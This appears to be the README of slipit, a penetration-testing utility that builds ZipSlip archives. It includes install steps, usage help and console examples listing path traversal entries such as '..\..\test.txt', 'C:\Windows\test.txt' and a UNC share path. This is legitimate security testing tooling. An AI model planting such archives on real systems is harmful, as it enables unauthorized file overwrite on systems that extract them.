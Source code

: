 ### slipit

----

*slipit* is a command line utility for creating archives with path traversal elements.
It is basically a successor of the famous [evilarc](https://github.com/ptoomey3/evilarc)
utility with an extended feature set and improved base functionality.


### Installation

----

*slipit* can be installed via [pip](https://pypi.org/project/pip/) by running the following commands:

```console
$ git clone https://github.com/usdAG/slipit
$ cd slipit
$ python3 setup.py sdist
$ pip3 install --user sdist/* 
```

*slipit* also supports autocompletion for *bash*. To take advantage of autocompletion, you need to have the
[completion-helpers](https://github.com/qtc-de/completion-helpers) project installed. If setup correctly, just
copying the [completion script](./resources/bash_completion.d/slipit) to your ``~/.bash_completion.d`` folder enables
autocompletion.


### Usage

----

```console
[user@box ~]$ slipit -h
usage: slipit [-h] [--archive-type {zip,tar,tgz,bz2}] [--clear] [--debug] [--depth int] [--increment int]
              [--overwrite] [--prefix string] [--multi] [--remove name] [--separator char] [--sequence seq]
              [--static content] [--symlink target] [filename ...] archive

slipit v1.0.0 - Utility for creating ZipSlip archives.

positional arguments:
  filename              filenames to include into the archive
  archive               target archive file

optional arguments:
  -h, --help            show this help message and exit
  --archive-type {zip,tar,tgz,bz2}
                        archive type to use
  --clear               clear the specified archive from traversal items
  --debug               enable verbose error output
  --depth int           number of traversal sequences to use (default=6)
  --increment int       add incremental traversal payloads from <int> to depth
  --overwrite           overwrite the target archive instead of appending to it
  --prefix string       prefix to use before the file name
  --multi               create an archive containing multiple payloads
  --remove name         remove files from the archive (glob matching)
  --separator char      path separator (default=\)
  --sequence seq        use a custom traversal sequence (default=..{sep})
  --static content      use static content for each input file
  --symlink target      add as symlink (only available for tar archives)
```

*slipit* expects an arbitrary number of input files and the targeted output archive as mandatory command line
parameters. All specified input files are appended to the specified archive including a path traversal prefix
with a depth specified with the `--depth` option (default is 6). The targeted archive format is determined
automatically depending on the file extension for non existing archives or the mime type for already existing
archives. You can also specify the archive type manually by using the `--archive-type` option.

```console
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
[user@box ~]$ slipit test.txt example.zip 
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
```

*slipit* expects the specified input files to exist on your local file system and uses the file content of
them within the archive. Often times this is not necessary and you just require dummy content to test for
*ZipSlip* vulnerabilities. This is where the `--static <string>` option can be helpful. When using this option,
only the filenames of the specified input files are used within the archive, while their content is set to `<string>`.

```console
[user@box ~]$ slipit test2.txt example.zip --static 'HELLO WORLD :D'
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
..\..\..\..\..\..\test2.txt                    2022-02-02 18:45:22           14
```

By using the `--clear` option, you can clear an archive from path traversal payloads.

```console
[user@box ~]$ slipit --clear example.zip 
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
```

*slipit* also allows to create an archive containing multiple payloads by using the `--multi` option:

```console
[user@box ~]$ slipit test.txt example.zip --static content --multi
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
C:\Windows\test.txt                            2022-02-03 09:35:28            7
\\10.10.10.1\share\test.txt                    2022-02-03 09:35:28            7
/root/test.txt                                 2022-02-03 09:35:28            7
../test.txt                                    2022-02-03 09:35:28            7
..\test.txt                                    2022-02-03 09:35:28            7
../../test.txt                                 2022-02-03 09:35:28            7
..\..\test.txt                                 2022-02-03 09:35:28            7
../../../test.txt                              2022-02-03 09:35:28            7
..\..\..\test.txt                              2022-02-03 09:35:28            7
../../../../test.txt                           2022-02-03 09:35:28            7
..\..\..\..\test.txt                           2022-02-03 09:35:28            7
../../../../../test.txt                        2022-02-03 09:35:28            7
..\..\..\..\..\test.txt                        2022-02-03 09:35:28            7
```


### Supported Archive Types

----

Currently, the following archive types are supported (just naming their most common
extension):

* `.zip`
* `.tar`
* `.tar.gz`
* `.tar.bz2`
